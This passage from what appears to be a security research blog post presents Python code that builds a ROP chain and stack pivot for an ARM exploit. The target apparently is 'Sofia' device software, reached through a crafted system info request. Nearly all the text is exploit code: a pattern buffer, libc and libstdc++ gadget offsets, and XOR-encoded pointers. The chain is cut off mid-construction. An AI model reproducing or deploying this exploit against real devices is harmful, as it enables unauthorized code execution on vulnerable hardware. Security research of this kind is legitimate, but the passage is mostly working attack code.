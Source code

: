 
## ROP-Chain

### Stack Pivot

Cool, so now we have the **maps** file, we can start looking for gadgets! For the sake of this blog, I will just dump the full ROP-chain, and highlight any interesting gadgets I used.

```
-python
def send_stack_pivot(sock, session_id, seq_number, libc_base_address, libcpp_base_address):
    """
    Sends a system info request message with type 0x3fc
    """

    libc_base_addr_int = int(libc_base_address, 16)
    libcpp_base_addr_int = int(libcpp_base_address, 16)
    xor_key = 0xffffffff
    sofia_gadget_xor = (0x3f43a8 - 0x34) ^ xor_key # subtract because gagdet adds to it later
    http_buffer_ptr_xor = 0x8f1cfc ^ xor_key

    context.arch = 'arm'
    context.bits = 32
    context.endian = 'little'

    rop_chain = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1"

    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(libcpp_base_addr_int + 0x8d62c) # r5 - gets put into lr for later gadget
    rop_chain += p32(libcpp_base_addr_int + 0x4b970) # r6 - for later gadget
    rop_chain += p32(libc_base_addr_int + 0x4d1a0) # pc

    # libc: 0005d1a0 cpy r1, r5; ldmia sp!,{r3,r4,r5,pc}
    rop_chain += p32(libc_base_addr_int + 0x63710) # r3 - needs to be valid writeable mem addr
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(xor_key) # r5 - goes into r1 as the XOR key
    rop_chain += p32(libc_base_addr_int + 0x515c0) # pc

    # libc: 000615c0 cpy lr,r1 ; str r1,[r3,#0x0] ; str r2,[r3,#0x4] ; ldmia sp!,{r4,pc}
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(libc_base_addr_int + 0x4d1a0) # pc

    # libc: 0005d1a0 cpy r1, r5; ldmia sp!,{r3,r4,r5,pc}
    rop_chain += p32(sofia_gadget_xor) # r3 - XOR of the Sofia gadget address
    rop_chain += p32(0x41414141) # r4 - needs to be a valid memory address
    rop_chain += p32(libc_base_addr_int + 0x22104) # r5 - gadget address for after second decode
    rop_chain += p32(libc_base_addr_int + 0x4ca14) # pc

    # libc: 0005ca14 eor r3,r3,r1 ; subs r0,r2,r0 ; sbc r1,r3,r1 ; bx lr
    # now we have decoded sofia gadget in r3

    # first populate lr for the return after the eor gadget
    # libcpp: 0009d62c cpy r2,r5 ; blx r6

    # libcpp: 0005b970 cpy lr,r2 ; moveq r0,#0x6 ; movne r0,#0x1 ; ldmia sp!,{r4,r5,pc}
    rop_chain += p32(libc_base_addr_int + 0x63710) # r4 - needs to be a writeable memory address
    rop_chain += p32(0x41414141) # r5
    rop_chain += p32(libcpp_base_addr_int + 0x5e3b0) # pc

    # move sofia gadget into r2 to keep it safe (libstdc++.so gadget btw (make sure r4 writeable memory address))
```